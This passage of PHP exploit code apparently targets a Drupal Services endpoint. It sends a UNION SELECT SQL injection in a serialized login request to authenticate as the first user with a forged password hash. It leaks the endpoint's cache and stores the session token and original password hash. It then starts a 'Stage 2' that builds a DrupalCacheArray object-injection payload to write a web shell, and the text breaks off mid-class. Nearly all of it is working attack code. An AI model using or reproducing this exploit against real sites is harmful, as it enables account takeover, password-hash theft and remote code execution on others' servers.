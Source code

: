 ```php
# Take first user but with a custom password
# Store the original password hash in signature_format, and endpoint cache
# in signature
$query = 
    "0x3a) UNION SELECT ux.uid AS uid, " .
    "ux.name AS name, '$password_hash' AS pass, " .
    "ux.mail AS mail, ux.theme AS theme, ($sql_cache) AS signature, " .
    "ux.pass AS signature_format, ux.created AS created, " .
    "ux.access AS access, ux.login AS login, ux.status AS status, " .
    "ux.timezone AS timezone, ux.language AS language, ux.picture " .
    "AS picture, ux.init AS init, ux.data AS data FROM {users} ux " .
    "WHERE ux.uid<>(0"
;

$query = new SelectQueryExtender($query);
$data = ['username' => $query, 'password' => 'ouvreboite'];
$data = serialize($data);

$json = $browser->post(TYPE_PHP, $data);

# If this worked, the rest will as well
if(!isset($json->user))
{
    print_r($json);
    e("Failed to login with fake password");
}

# Store session and user data

$session = [
    'session_name' => $json->session_name,
    'session_id' => $json->sessid,
    'token' => $json->token
];
store('session', $session);

$user = $json->user;

# Unserialize the cached value
# Note: Drupal websites admins, this is your opportunity to fight back :)
$cache = unserialize($user->signature);

# Reassign fields
$user->pass = $user->signature_format;
unset($user->signature);
unset($user->signature_format);

store('user', $user);

if($cache === false)
{
    e("Unable to obtains endpoint's cache value");
}

x("Cache contains " . sizeof($cache) . " entries");

# Stage 2: Change endpoint's behaviour to write a shell

class DrupalCacheArray
{
    # Cache ID
    protected $cid = "services:endpoint_name:resources";
    # Name of the table to fetch data from.
```
